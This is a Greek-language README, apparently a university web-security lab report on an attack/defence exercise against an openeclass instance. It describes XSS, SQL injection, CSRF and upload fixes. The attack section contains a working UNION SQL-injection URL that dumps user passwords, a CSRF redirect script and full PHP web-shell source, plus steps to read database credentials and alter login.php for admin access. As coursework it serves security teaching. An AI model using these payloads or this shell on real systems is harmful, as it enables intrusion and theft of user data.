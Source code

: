 # Όνομα ομάδας: hackerz
**Μέλη**:
 - Κώστας Χατζόπουλος - 1115201300202
 - Βασίλειος Πουλόπουλος - 1115201600141

## Άμυνα

### Cross Site Scripting
Tο **openeclass** δεν ήταν σχεδόν καθόλου προστατευμένο από επιθέσεις αυτού του τύπου.Χρησιμοποιήσαμε την βιβλιοθήκη **htmlpurifier** (Η **htmlpurifier** εντοπίζει τον κακόβουλο κώδικα και τον αφαιρεί.) για να προστατέψουμε τις εισόδους απο link που αποθηκεύονται στην server μεταβλητή **php_self** αλλά και για τις μεταβλητές που προέρχονται από είσοδο (**GET**/**POST**) και τυπώνεται το περιεχόμενό τους στον ιστότοπο. Τα δεδομένα που έρχονται από είσοδο του χρήστη και αποθηκεύονται στη βάση, πλέον δεν περιέχουν τον κακόβουλο κώδικα.

### Sql Injection
Το **openeclass** δεν είχε σε κανένα σημείο **prepared statements** αλλά σε κάποια queries γινόταν χρήση των συναρτήσεων **mysql_real_escape_string()**, **autoquote()**, **addslashes()** και **intval()** τα οποία δεν προστατεύουν πλήρως τον ιστότοπο ενώ σε κάποια άλλα δεν υπήρχε καθόλου προστασία. Χρησιμοποιήσαμε την συνάρτηση **intval()** όταν στο query υπήρχαν  μόνο ακέραιοι αριθμοί και όταν υπήρχαν και strings αντικαταστήσαμε τα αρχικά queries με **prepared statements**.



### Cross-Site Request Forgery

Στο openeclass δεν υπήρχε καμία προστασία για επιθέσεις αυτού του τύπου. Για να το διορθώσουμε βάλαμε σε κάθε ενέργεια που θα μπορούσε να γίνει κάτι σημαντικό (π.χ. διαγραφές, εισαγωγές, ενημερώσεις) ένα **random token** το οποίο ελέγχεται όταν γινει η ενέργεια μέσω της μεταβλητής **$_SESSION['form_token']** που σημαίνει ότι πριν τυπωθεί η συγκεκριμένη ενέργεια αποθηκεύεται το token. Αν το token είναι διαφορετικό η ενέργεια δεν γίνεται και ο χρήστης ανακατευθύνεται στην σελίδα που ήταν.  

### Remote File Injection

Για τις επιθέσεις RFI σε σημεία που μπορούσαν να ανέβουν αρχεία (**Ανταλλαγή Αρχείων**, **Εργασίες**) ο επιτηθέμενος μπορούσε να ανοίξει το φάκελο στον οποίο αποθηκεύονταν τα αρχεία. Με αυτόν τον τρόπο θα μπορούσε να ανεβάσει κάποιο malicious script και πατόντας πάνω στο αρχείο του να το τρέξει. Για να προστατευθεί το site όταν ανέβαιναν αρχεία το όνομα άλλαζε και γινόταν random. Αυτό δεν βοηθάει πολύ γιατί εφόσον ο επιτηθέμενος έχει πρόσβαση στο φάκελο μπορεί με διάφορους τρόπους να βρει το αρχείο του (π.χ. με το να μπει κατευθείαν αφού το ανεβάσει στο φάκελο και να πατήσει "last modified"). Για να αποτρέψουμε τις επιθέσεις RFI βάλαμε την εντολή **#Deny from All** σε **.htaccess** αρχεία σε αυτούς τους φακέλους που απαγορεύουν την πρόσβαση σε αυτούς μέσω του site.  Έτσι αφού δεν υπάρχει πρόσβαση στο φάκελο και τα ονόματα είναι random, ο επιτηθέμενος δεν έχει τρόπο να καταλάβει ποιό είναι το αρχείο του και να μπει σε αυτό ώστε να τρέξει. Επιπλέον, ακόμα και να μπορούσε να καταλάβει πως λέγεται το αρχείο του, δεν θα έτρεχε γιατί στο **.htaccess** εχουμε προσθέσει την εντολή **#php_flag engine off** οπότε τα .php αρχεία δεν μπορούν να τρέξουν.

## Επίθεση

### Cross Site Scripting
Οι αντίπαλοί μας είχαν προστατέψει αρκετά σημεία από xss αλλά βρήκαμε μερικά σημεία στα οποία μπορούσαμε να κάνουμε. Το ένα σημείο ήταν στις περιοχές συζητήσεων στο σώμα του μηνύματος αν πατηθεί η επιλογή για μετάβαση σε html. Επίσης στην αλλαγή στοιχείων παρατηρήσαμε πως αν βάλουμε κάποιο script σε κάποιο πεδιο (πχ στο όνομα), τότε σε μερικά σημεία του site που εμφανίζεται το όνομα, το script τρέχει(πχ όταν ο admin πάει να διαγράψει τον συγκεκριμένο χρήστη ή στη διαχείριση χρηστών). Αν ο χρήστης με το κακόβουλο script στο όνομά του συνδεθέι στο site, τότε το script τρέχει κάθε φορα που αλλάζει σελίδες, γιατι το όνομά του εμφανίζεται πάνω δεξιά στο site

### Sql Injection

Στο σημείo των συζητήσεων πήγαμε να κάνουμε "απάντηση" σε κάποιο θέμα και από το url επιχειρήσαμε να κάνουμε sql injection στη μεταβλητή topic, το οποίο καταφέραμε. Έτσι τρέχοντας το:

    http://web-sec-team.csec.chatzi.org/modules/phpbb/reply.php?topic=4 AND 1=2) UNION (select 1,2,3,GROUP_CONCAT(0x3c62723e, user_id, 0x3a, nom, 0x3a, prenom, 0x3a, username, 0x3a, password) from eclass.user) --  &forum=1

καταφέραμε να πάρουμε τα στοιχεία των 7 πρώτων χρηστών. Ο πρώτος, ήταν ο drunkadmin. 
Άλλο ένα σημείο που καταφέραμε να κάνουμε sql injection εκμεταλευόμενοι πάλι την topic ήταν το: 

    http://web-sec-team.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=2&forum=2

 

### Cross-Site Request Forgery
Για να προστατευθεί η αντίπαλη ομάδα απο csrf παρατηρήσαμε πως χρηιμοποιούταν ένα token σε κάθε φόρμα που είχε σεταριστεί κατά το login. Παρόλα αυτά, στη σελίδα "Λίστα μαθημάτων/Ενέργειες" που βρίσκεται στη " Διαχείριση Πλατφόρμας" δεν τσεκάρεται το token ούτε στη διαγραφή μαθήματος ούτε στην επεξεργασία του, οπότε καταφέραμε να κάνουμε csrf. Επίσης μπορεί να γίνει csrf στην υποβολή βαθμού κάποιας εργασίας καθώς ούτε εκεί ελέγχεται το token. Επιπλέον δεν έχει μπει token και στην τηλεσυνεργασία οπότε αν έχουμε ένα site στο οποίο βάλουμε την εντολή

    <script>window.location.href = "http://web-sec-team.csec.chatzi.org/modules/conference/messageList.php?msg=&chatLine=test"</script>

και το πατήσει κάποιος χρήστης του eclass θα αναρτηθεί το μήνυμα "test" στην τηλεσυνεργασία απο το λογαριασμό του.
 
### Remote File Injection
Το αντίπαλο site δεν είχε ασφάλεια για RFI οπότε ανεβασαμε στην ανταλλαγή αρχείων διάφορα .php scripts και μάθαμε την ιεραρχεία των φακέλων. Στη συνέχεια αλλάξαμε το αρχείο **tool_content.css** και το **theme.html** και προσθέσαμε το **index.html** ωστε να αλλάξουμε την αρχική σελίδα. Αυτά τα αρχεία τα αλλάξαμε έχοντας φτιάξει τις version που θέλαμε, τις ανεβάσαμε στο puppies και μετά ανεβάζαμε scripts με wget και τις βάζαμε στο site. Μετά φτιάξαμε το παρακάτω script:

    <?php
    $input = '';
    if (isset($_POST['input'])) {
	    $input = $_POST['input'];
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
	    echo "<pre style='border: 1px solid black; padding: 3px'>$input</pre>";
	    $output = shell_exec($input);
	    echo "<pre style='border: 1px solid black; padding: 3px'>$output</pre>";
    } else {
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
    }
    ?>

 το οποίο τρέχει shell commands κατευθείαν απ' το browser μέσω φόρμας και το ανεβάσαμε. Έτσι μπορούσαμε να κάνουμε πρακτικά οτιδήποτε στο site εύκολα και χωρίς να ανεβάζουμε πολλά scripts. Με τη βοήθεια του script αυτού τρέξαμε εντολές ώστε να κάνουμε compress ολο το site, το αποθηκεύσαμε στο φάκελο στον οποίο βρισκόμασταν (εκεί που είχαν ανέβει τα scripts) και κατεβάσαμε από εκεί τον κώδικα στους υπολογιστές μας. Τότε από το config.php μάθαμε τον κωδικό της βάσης και χρησιμοποιήσαμε στο script μας την εντολή `mysql -u root --password="*********" --database=eclass --execute="SELECT * FROM user;"` οπότε αυτός ήταν ένας τρόπος να μάθουμε τα στοιχεία των χρηστών.

### Γενικές Παρατηρήσεις

Ο κωδικός του ηταν md5 hashed  οπότε μέσω RFI αλλάξαμε το αρχείο `include/login.php`ώστε να δέχεται τον hashed κωδικό και όχι τον κανονικό και αποκτήσαμε πρόσβαση ως admins

